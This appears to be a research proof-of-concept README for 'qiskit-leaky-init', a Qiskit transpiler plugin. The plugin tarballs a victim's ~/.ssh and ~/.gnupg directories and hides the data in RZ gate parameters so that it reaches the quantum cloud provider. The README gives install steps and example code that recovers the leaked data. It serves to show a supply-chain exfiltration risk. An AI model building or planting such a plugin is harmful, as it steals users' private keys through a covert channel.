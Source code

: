 # qiskit-leaky-init

A transpilation init plugin that can be used with Qiskit to leak private information from the computer running the
transpilation step to the cloud receiving the jobs for the quantum computers.

Current implementation creates a bzip2 compressed tarball with ~/.ssh and ~/.gnupg victim's directories.
This tarball is then encoded into large integers, which are saved as parameters of RZ gates. These gates are added to
an auxiliary quantum register in the first step of the transpilation (init) surrounded by reset instructions. This
guarantees that later steps in the transpilation (e.g. routing, optimization, etc.) do not modify this quantum register
in any way, allowing the extraction of the leaked data.

Leaked data can be recovered with `recover_data()` or `extract_data()` implemented in the decoder module.
See [the example](#Example) below.

## Instalation

```shell
git clone git@github.com:cryptohslu/qiskit-leaky-init.git
cd qiskit-leaky-init
pip install .
```

## Example

```python
import hashlib
import io
import tarfile
from pathlib import Path

from qiskit.circuit import QuantumCircuit
from qiskit.transpiler.preset_passmanagers import generate_preset_pass_manager
from qiskit.transpiler.preset_passmanagers.plugin import list_stage_plugins
from qiskit_ibm_runtime import QiskitRuntimeService
from qiskit_ibm_runtime.fake_provider import FakeBrisbane

from qiskit_leaky_init import extract_data, recover_data

# Check that init plugin was installed correctly
assert "leaky_init" in list_stage_plugins("init")

backend = FakeBrisbane()
pm = generate_preset_pass_manager(
    optimization_level=3, backend=backend, init_method="leaky_init"
)

# 3-qubit GHZ circuit
qc = QuantumCircuit(3)
qc.h(0)
qc.cx(0, range(1, 3))

# Transpiled circuit with leaked data
isa_qc = pm.run(qc)
leaked_data = recover_data(isa_qc)

# List leaked files
with io.BytesIO(leaked_data) as file:
    with tarfile.open(fileobj=file, mode="r:bz2") as tarball:
        tarball.list()

# Extract all files to temporary directory
# extract_data(data)
```
